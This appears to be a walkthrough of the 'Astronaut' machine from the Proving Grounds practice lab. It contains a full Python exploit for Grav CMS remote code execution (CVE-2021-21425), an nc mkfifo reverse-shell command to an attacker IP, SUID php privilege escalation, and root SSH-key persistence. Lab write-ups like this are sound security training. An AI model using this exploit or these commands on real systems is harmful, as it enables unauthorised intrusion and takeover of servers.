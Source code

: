# Astronaut

## Proving Grounds: Practice
------

> Beginning with a typical service and version scan with nmap, we find that only ports 22 (ssh) and 80 (http) are open. Additionally we are informed that there is a directory listing available, notably grav-admin.

### Nmap Results
------

```nmap-output

$ nmap 192.168.228.12 -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 17:05 EDT
Nmap scan report for 192.168.228.12
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)

80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
|-     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.52 seconds
```
<br>

> Enumerating the website, we in fact find that there is a content management system in use, Grav-CMS.
<br>
<p align="center">

![image](https://github.com/user-attachments/assets/0d45e3e0-b7ae-4582-9fb7-573951440855)
</p>
<br>
<p align="center">

![image](https://github.com/user-attachments/assets/cc0904c2-185e-4a2b-a47d-6564ca5e889b)
</p>

> A quick search for related exploits turns up an interesting find. 


### GravCMS Unauthenticated Arbitrary YAML Write/Update leads to Code Execution (CVE-2021-21425)
------

```
https://github.com/CsEnox/CVE-2021-21425
```


### Exploit
------

```python

#!/usr/bin/python

import requests
from bs4 import BeautifulSoup
from time import sleep
import urllib.parse
import argparse

parser = argparse.ArgumentParser(description='Grav Admin 1.7.10 RCE')
parser.add_argument('-c', help='Command', required=True)
parser.add_argument('-t', help='URL (Eg: http://grav.local)', required=True)
args = parser.parse_args()

url = args.t
cmd = args.c
cmd = urllib.parse.quote(cmd)

session = requests.Session()

# Getting Nonce
r = session.get(url+'/admin')
soup = BeautifulSoup(r.text, features="lxml")
a = str(soup.findAll('input')[3])
nonce = a[47:79]

# Creating File
print("[*] Creating File")
payload = f'admin-nonce={nonce}&task=SaveDefault&data[custom_jobs][vwlya][command]=/usr/bin/echo&data[custom_jobs][vwlya][args]={cmd}&data[custom_jobs][vwlya][at]=%2a%20%2a%20%2a%20%2a%20%2a&data[custom_jobs][vwlya][output]=/tmp/shell.sh&data[status][vwlya]=enabled&data[custom_jobs][vwlya][output_mode]=overwrite'
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = session.post(url+'/admin/config/scheduler',data=payload,headers=headers)

if "Invalid Security Token" in r.text:
	exit("Exploit failed :(")
else:
	print("Scheduled task created for file creation, wait one minute")
	sleep(60)

# Running File
print("[*] Running file")
payload = f'admin-nonce={nonce}&task=SaveDefault&data[custom_jobs][vwlya][command]=/bin/bash&data[custom_jobs][vwlya][args]=/tmp/shell.sh&data[custom_jobs][vwlya][at]=%2a%20%2a%20%2a%20%2a%20%2a&data[custom_jobs][vwlya][output]=&data[status][vwlya]=enabled&data[custom_jobs][vwlya][output_mode]=overwrite'
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = session.post(url+'/admin/config/scheduler',data=payload,headers=headers)

if "Invalid Security Token" in r.text:
	exit("Exploit failed :(")
else:
	print("Scheduled task created for command, wait one minute")
	sleep(60)

print("Exploit completed")
```


> Setting our listener to port 4444. Then sending the exploit command.


![image](https://github.com/user-attachments/assets/ada695c3-222f-427f-961f-c7dee3ccdf58)


### Command Line
------

```
python3 exploit.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.21.153 4444 >/tmp/f' -t http://192.168.207.12/grav-admin
```
<br>

> We get a reverse shell, as www-data.
<br>
<p align="center">

![image](https://github.com/user-attachments/assets/14e3bca3-8656-4e09-b26a-48b350817cb6)
</p>

### Stabilize Shell
------

```
export TERM=xterm;python3 -c 'import pty;pty.spawn("/bin/bash")'
```
<p align="center">

![image](https://github.com/user-attachments/assets/bb1e2a10-7faf-40fb-abd8-7ddfbf7a2f10)
</p>

> We cannot check for sudo rights on www-data because we don't have the password. But we can search for binaries that may have the SUID bit set.

### SUID Hunting
------

```
find / -perm -u=s 2>/dev/null
```
<br>
<p align="center">
![image](https://github.com/user-attachments/assets/71cc304e-6c4b-4679-88a9-609b05ad1bba)
</p>

> Checking out the findings on GTFOBins php seems to be a great candidate for Privilege Escalation.


### Escalate Privileges
------

```shell
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```
<p align="center">

![image](https://github.com/user-attachments/assets/4bcce87e-17d0-4de1-9c29-1a4e3eed8e1a)
</p>

> Now that we have root access, we can submit the proof of pwnage. Additionally we can have persistence on the machine by adding our public key to the authorized_keys file, though that is unnecessary.


### Persistence via SSH

```
cd /root/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTNoNoNoB5vEuE2CVK/0/xPnhxWfBWGj" >> authorized_keys
```